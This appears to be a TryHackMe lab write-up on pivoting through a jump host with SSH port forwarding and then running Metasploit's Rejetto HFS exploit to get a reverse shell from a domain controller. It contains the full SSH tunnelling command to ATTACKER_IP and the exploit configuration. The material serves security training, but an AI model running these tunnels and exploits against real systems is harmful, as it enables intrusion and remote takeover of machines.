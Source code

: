 ![[618de3db53e103f3df56ae922f66e879.png]]

We can use SSH to forward some ports from the attacker machine to THMJMP2 (SRVPORT and LPORT) and pivot through THMJMP2 to reach RPORT on THMDC, we would need 3 port forwards in both directions.

![[dbbc833670f1a7ed6f76eeac7d8bd1ee.png]]

Rejetto HFS will listen with port 80, so we will need tunnel this port to the attacking machine trough THMJMP2 with a non occupied port, so we will add `-R 8888:thmdc.za.tryhackme.com:80` to our SSH command running from THMJMP2.

Let's say we use port 6666 for SRVPORT and port 7878 for LPORT, so we need to add `-L *:6666:127.0.0.1:6666` and `-L *:7878:127.0.0.1:7878` to our SSH command to bind those ports on THMJMP2 and tunnel the connections to our machines.

`ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N` - The final SSH command.

Now we can configure the exploit in Metasploit:

```shell-session
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

- With the LHOST parameter we configure THMJMP2 as the listener since THMDC can't reach us, we also set the `ReverseListenerBindAddress` optional option to bind the attacker's address on 127.0.0.1.
- We set the SRVHOST to 127.0.0.1 since THMJMP2 will be able to forward any connection received on the SRVPORT to the attacker's machine.
- The RHOSTS option is also set to 127.0.0.1 since the SSH tunnel established with THMJMP2 will forward the requests to THMDC, RPORT is set to 8888 since any connection to that port on the attacker machine will be forwarded to port 80 on THMDC.